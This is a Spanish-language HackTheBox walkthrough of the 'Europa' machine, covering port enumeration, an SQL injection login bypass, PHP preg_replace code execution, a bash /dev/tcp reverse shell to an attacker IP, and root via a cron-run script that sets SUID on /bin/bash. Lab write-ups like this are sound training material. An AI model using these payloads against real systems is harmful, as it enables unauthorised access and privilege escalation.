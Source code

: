 ```yaml
---
title: Writeup Europa
date: 2024-04-18 11:27:10 +/-TTTT
categories: [HTB]
tags: [linux, hackthebox, custom, medio]     # TAG names should always be lowercase

image:
  path: /assets/img/Posts/Europa/post_img.JPG
  alt: Writeup Europa
---
```


En el siguiente writeup de la maquina Europa se explotaran vulnerabilidades de sqlinjection, Server side Include y explotacion de Tareas Cron en una maquina Ubuntu.

### Enumeracion:

Iniciamos un reconocimiento de puertos con el siguiente nmap:

```shell
$sudo nmap -sS --min-rate 5000 -n -Pn -vvv --open -p- -oG allPorts 10.10.10.22
```

En lo personal usare la funcion extractPorts incluida en mi bashrc para extraer los puertos abiertos que nmap dejo en el archivo en formato grepeable. Al correr la utilidad vemos que tiene 3 puertos abiertos:

<div style="text-align:center">
    <img src="assets/img/Posts/Europa/ports.JPG" alt="" >
</div>

Ahora podemos hacer un analisis mas profundo de los servicios que corre cada puerto:

<div style="text-align:center">
    <img src="assets/img/Posts/Europa/nmapservices.JPG" alt="" >
</div>

Vemos que el servidor esta configurado para servir un virtualhost en el el dominio [www.europacorp.htb](www.europacorp.htb) asi que configuraremos nuestro /etc/hosts para que redirija todos las peticiones hacia ese subdominio a la ip de la maquina europa y asi el middleware de apache nos sirva el sitio correspondiente. Agregamos el siguiente codigo a el /etc/hosts:

```shell
10.10.10.22 europacorp.htb www.europacorp.htb admin-portal.europacorp.htb
```

Ahora si intetamos acceder a cada uno de las url con los nombres dns llegaremos siempre a la misma pagina. Pero como ser ve aca con Whatweb si hay un dominio que nos redirije a un panel de autenticacion en https://admin-portal.europacorp.htb/login.php.

<div style="text-align:center">
    <img src="assets/img/Posts/Europa/whatweb.JPG" alt="" >
</div>

Vemos que el panel tiene la siguiente forma y tiene pinta de ser creado por el dueno del sitio por lo que probaremos vulnerarlo manualmente con sql injections:

<div style="text-align:center">
    <img src="assets/img/Posts/Europa/panel.JPG" alt="" >
</div>

Usaremos burpsuite para probar diferente sqlis y encontrar una que funcione, finalmente las credenciales que funcionaron son email=admin@europacorp.htb' OR '1' = '1-- -&password=asd por lo tanto nos logueamos.

Luego dentro tenemos la seccion de tools que como se puede ver toma un string de entrada por nosotros y lo reemplaza en el texto que aparece en el sitio, y eso se hace en el servidor asi que probablemente el endpoint https://admin-portal.europacorp.htb/tools.php use un codigo inseguro para realizar el reemplazo:

Aqui tomamos el siguiente codigo url encodeado y para desencodearlo usamos Ctrl+shift+u seleccionando todo el texto que queremos modificar:

<div style="text-align:center">
    <img src="assets/img/Posts/Europa/url encoded.JPG" alt="" >
</div>

Queda como:

<div style="text-align:center">
    <img src="assets/img/Posts/Europa/urldesencoded.JPG" alt="" >
</div>

Como podemos ver la interfaz de usuario toma un string ingresado por nosotros en el cuadro superior y lo envia al servidor junto con el texto que aparece en el cuadro inferior que tambien podemos modificar. Y en el servidor se  reemplaza el texto del cuadro superior en todas las partes donde aparece ip_address en el cuadro inferior que son 2 partes. Esto probablemente lo haga con un preg_replace el cual es un codigo php inseguro ya que permite ejecutar codigo como explica el siguiente [articulo](https://bitquark.co.uk/blog/2013/07/23/)the_unexpected_dangers_of_preg_replace. Entonces enviamos el siguiente payload desde el burpsuite y vemos que tenemos ejecucion remota de comandos:

<div style="text-align:center">
    <img src="assets/img/Posts/Europa/payload.JPG" alt="" >
</div>

<div style="text-align:center">
    <img src="assets/img/Posts/Europa/response.JPG" alt="" >
</div>

Asi que lo que hacemos ahora es enviar la siguiente reverse shell con netcat:

```shell
system("bash -c 'bash -i >& /dev/tcp/10.10.14.3/6666 0>&1'")
```
Donde encodeamos los & por %26.

<div style="text-align:center">
    <img src="assets/img/Posts/Europa/reverseshellsend.JPG" alt="" >
</div>

Ahora tenemos una sesion en nuestra maquina atacante:

<div style="text-align:center">
    <img src="assets/img/Posts/Europa/wwwdatasession.JPG" alt="" >
</div>

### Escalada de privilegios

Es el momento de escala privilegios a root ya que podemos obtener la flag de usuario pero no acceder al directorio root como se ve a continuacion:

<div style="text-align:center">
    <img src="assets/img/Posts/Europa/escalada.JPG" alt="" >
</div>

Si leemos el archivo crontab vemos que cada minuto se esta ejecutando como root el programa clearlogs.

<div style="text-align:center">
    <img src="assets/img/Posts/Europa/crontab.JPG" alt="" >
</div>

El contenido de dicho programa es el siguiente:

```php
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```

Entonces ahora creamos el archivo logcleared.sh y le agregamos el siguiente codigo para que cuando clearlog lo ejecute como root entonces le asigne un bit suid al /bin/bash. Lo que permite hacer el SUID es ejecutar el programa con los privilegios del propietario en este caso root. 

```shell
#!/bin/bash
chmod u+s /bin/bash
```
Ademas podemos vigilar los privilegios del /bin/bash con ```watch -n 1 ls -l /bin/bash ``` y para cuando exactamente se cambie de minuto tendremos la bash con el suid por lo que iniciamos la bash como propietario para obtener root:

<div style="text-align:center">
    <img src="assets/img/Posts/Europa/obtaining root.JPG" alt="" >
</div>

